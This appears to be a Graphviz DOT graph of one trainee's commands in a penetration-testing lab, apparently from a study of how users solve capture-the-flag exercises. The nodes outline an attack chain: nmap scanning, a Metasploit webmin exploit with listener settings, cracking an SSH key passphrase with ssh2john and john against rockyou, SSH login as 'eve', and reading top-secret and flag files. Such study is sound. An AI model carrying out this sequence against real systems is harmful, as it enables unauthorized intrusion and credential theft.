 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="ls A10 "]
	7 [label="msfconsole A2 M2 "]
	8 [label="search webmin A3 M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options A5 M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 A6 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin V3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin V3 "]
	20 [label="use 3 A4 "]
	21 [label="show options V5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit A8 M8 "]
	28 [label="set LHOST 147.251.83.13 V6 "]
	29 [label="exploit V8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit V8 "]
	32 [label="set LHOST 100.100.100.2 V6 "]
	33 [label="exploit V8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit V8 "]
	37 [label="set LHOST 10.1.135.83 V6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 A16 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit V8 "]
	50 [label="chmod 600 id_rsa A15 M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 V16 "]
	54 [label="ls A10 "]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash A14 M14 "]
	70 [label="ssh eve@10.1.17.4 V16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result V14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 V16 "]
	74 [label="ssh eve@10.1.17.4 V16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	77 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt A17 M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
